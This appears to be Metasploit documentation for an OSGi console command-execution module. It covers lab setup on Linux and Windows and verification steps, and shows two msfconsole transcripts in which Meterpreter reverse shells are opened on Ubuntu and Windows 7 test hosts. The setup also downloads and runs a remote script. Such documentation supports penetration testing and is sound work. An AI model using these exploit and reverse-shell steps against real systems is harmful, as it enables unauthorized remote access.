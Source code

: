## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
`mkdir testenv && cd testenv`
2. Download the setup script
`wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh`
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
`./setup.sh`
5. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
6. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinox SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
```
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
```
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
```
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
```
11. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
12. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/osgi_console_exec`
  4. Do: `set RHOST 127.0.0.1`
  5. Do: `set RPORT 5555` or `set RPORT 2019`
  6. Do: `check`. The target should appear vulnerable.
  6. Do: `set payload` with the payload of your choosing.
  5. Do: `run`
  5. You should get a shell.

## Options

  **TIME_WAIT** - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf5 exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

```

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf5 exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
